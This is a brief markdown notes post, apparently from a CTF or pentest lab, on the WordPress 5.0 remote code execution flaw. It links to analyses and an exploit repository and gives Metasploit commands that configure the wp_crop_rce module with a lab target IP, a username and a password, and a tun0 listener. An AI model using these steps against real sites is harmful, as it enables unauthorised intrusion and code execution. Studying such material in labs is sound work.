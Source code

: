 ```yaml
---
layout: post
title: Wordpress 5 RCE
description: Wordpress 5 RCE
summary: Wordpress 5 RCE
tags: [rce,wordpress,foothold,web]
minute: 1
---
```

**This attack is very complicated and hard to understand for beginners**

* [WordPress 5.0.0 Remote Code Execution](https://blog.sonarsource.com/wordpress-image-remote-code-execution?redirect=rips)
* [The detailed analysis of WordPress 5.0 RCE | by Knownsec 404 team | Medium](https://medium.com/@knownsec404team/the-detailed-analysis-of-wordpress-5-0-rce-a171ed719681)
* [Analysis of a WordPress Remote Code Execution Attack - Pentest-Tools.com Blog](https://pentest-tools.com/blog/wordpress-remote-code-execution-exploit-cve-2019-8942/)
* https://github.com/v0lck3r/CVE-2019-8943.git
* Metasploit

```bash
use exploit/multi/http/wp_crop_rce
set rhosts 10.10.188.55
set username kwheel
set password cutiepie1
set lhost tun0
```